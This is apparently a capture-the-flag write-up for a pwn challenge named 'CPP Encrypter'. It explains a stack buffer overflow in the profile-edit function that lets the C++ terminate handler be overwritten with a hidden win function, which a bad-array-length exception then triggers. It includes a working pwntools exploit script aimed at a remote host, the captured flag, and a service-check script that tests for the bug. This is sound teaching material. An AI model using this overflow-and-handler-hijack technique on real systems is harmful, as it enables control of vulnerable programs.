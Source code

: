 # Overview

**Challenge Name :** CPP Encrypter

**Author :** @Capang

**Description :** I love C so much that I code a CPP program using C syntax

## Analysis

```c
    puts("\n--- Edit Profile ---");
    printf("Enter new username (leave empty to keep current): ");
    fgets(local_418,0x404,stdin);
```

There is an obvious BOF here because the username is originally of size 256 but its taking in 1028 characters when you try to edit your profile.

![image](https://github.com/user-attachments/assets/f3cac91b-b0ee-42c7-ab91-da2e95044fa3)

After going through the things that we can overwrite, this function looked the most interesting. Judging from its name `terminate handler`, we assumed that if we somehow managed to terminate the program without the traditional way, we can overwrite this handler to point to a function that we want. But which function?

![image](https://github.com/user-attachments/assets/ef2b0b65-3d1c-47ee-8868-d44d2f2ee96e)

After doing abit of going through every single function in the program, you will eventually stumble upon this interesting function. Next step is how to terminate the program in a different way? 

```c
    if (0xfffffffffffffff < uVar2) {
      uVar3 = __cxa_throw_bad_array_new_length();
      goto LAB_004020f1;
    }
```

In the encrypt message function, if you give too many messages to encrypt, it will trigger bad array length. So the goal is simple

1. Overwrite terminate handler with the address of the useless function
2. Give a large number to encrypt message and terminate the program

## Solve Script

```py
#!/usr/bin/python
from pwn import *

filepath = './encryption_app'
exe = context.binary = ELF(filepath)

host = "116.203.176.73"
port = 59656

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def create(usr=b"a", pas=b"a"):
  sla(b"choice: ", "1")
  sla(b"username: ", usr) 
  sla(b"password: ", pas)

def login(usr=b"a", pas=b"a"):
  sla(b"choice: ", "2")
  sla(b"Username: ", usr) 
  sla(b"Password: ", pas)

def edit(usr=b"a", pas=b"a"):
  sla(b"choice: ", "3")
  sla(b": ", usr)
  # s(usr)
  sla(b": ", pas)

def encrypt(num, method, msg):
  sla(b"choice: ", "5")
  sla(b"hash? ", str(num))
  sla(b": ", msg)
  sla(b": ", str(method))

# p = exe.process()
p = remote(host,port)

win = 0x401976

create()
login()
payload = b"A" * 0x148
payload += p64(win)

edit(payload)

sla(b"choice: ", "5")
sla(b"hash? ", str(10000000000000000))

p.interactive()
```

![image](https://github.com/user-attachments/assets/108a3920-876b-4681-b223-317915787f21)

> Flag : UMCS{AW3S0ME_3NCRYPT0R_S0LLV33_73bb3661}

## SLA

```py
#!/usr/bin/env python3
"""
Service-health checker for the “Encrypt Messages” huge-array allocation bug.

Return codes:
0 – vulnerable / unpatched
1 – patched
2 – service down
"""
import socket
import sys
import time

# Status codes
UNPATCHED, PATCHED, DOWN = 0, 1, 2

# ======= helpers ============================================================

def recv_until(sock, marker: bytes, timeout=8.0) -> bool:
    """Receive until *marker* appears or timeout expires. Returns True on success."""
    sock.settimeout(timeout)
    data = b""
    try:
        while marker not in data:
            chunk = sock.recv(1024)
            if not chunk:
                return False          # connection closed
            data += chunk
        print(data)
        return True
    except (socket.timeout, ConnectionResetError):
        return False

def send_line(sock, line: str):
    sock.sendall(line.encode() + b"\n")

# ======= main check =========================================================

def run_check(host: str, port: int) -> int:
    try:
        s = socket.create_connection((host, port), timeout=3)
    except (socket.timeout, ConnectionRefusedError):
        return DOWN

    try:
        # Step 1: Create account
        if not recv_until(s, b"Enter choice: "):
            print(82)
            return DOWN
        send_line(s, "1")  # menu → Create Account
        print("creating account")

        if not recv_until(s, b"Enter username: "):
            print(222)
            return DOWN
        send_line(s, "t")  # 1-byte username keeps parsing simple

        if not recv_until(s, b"Enter password: "):
            return DOWN
        send_line(s, "t")
        print("created account")

        # Wait for success banner and next menu
        if not recv_until(s, b"Enter choice: "):
            return DOWN
        print("yes no?")

        # Step 2: Log in
        send_line(s, "2")
        if not recv_until(s, b"Username: "):
            return DOWN
        send_line(s, "t")
        if not recv_until(s, b"Password: "):
            return DOWN
        send_line(s, "t")
        if not recv_until(s, b"Login successful!\n"):
            return DOWN

        # print("login success")
        if not recv_until(s, b"Enter choice: "):
            return DOWN

        print("yes no?")

        # Step 3: Trigger the bug in “Encrypt Messages”
        send_line(s, "5")
        if not recv_until(s, b"How many messages to hash? "):
            return DOWN
        huge = "500000000000000000000"
        send_line(s, huge)
        print("sent big")

        # If the service is patched, it should send an error message **and**
        # return to the menu within a short window.
        patched_response = recv_until(s, b"Enter choice:", timeout=2)
    
        if patched_response:
            return PATCHED  # still alive → patched
        else:
            # Connection may already be dead; double-check with a tiny pause
            time.sleep(0.5)
            try:
                s.send(b"PING\n")
            except Exception:
                return UNPATCHED        # crashed → vulnerable
            return UNPATCHED            # still up but ignored us → treat as vuln
    finally:
        try:
            s.close()
        except Exception:
            pass

# ======= entry-point ========================================================

if __name__ == "__main__":
    host = sys.argv[1] if len(sys.argv) > 1 else "localhost"
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 10102

    status = run_check(host, port)
    print(status)
    sys.exit(status)
```

The SLA script checks if you still are able to send a big number as the array length. There are probably many ways to patch this such as removing the call, adding jump instructions or modifying jump conditions so I'll just leave it up to you guys to find out :D
